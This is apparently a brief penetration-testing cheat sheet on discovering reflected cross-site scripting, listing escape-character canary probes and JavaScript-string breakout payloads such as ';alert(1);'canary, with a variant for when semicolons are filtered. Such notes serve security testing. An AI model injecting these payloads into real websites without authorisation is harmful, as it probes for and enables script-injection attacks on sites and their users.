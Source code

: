# XSS Discovery

## Reflective Discovery

### Escape Characters
```
`
# `canary
```
Check page source to verify text displays properly or to see errors

### Alerts
```
';alert(1);'canary

# Sometimes semicolon is blocked
'+alert(1)+'canary
```


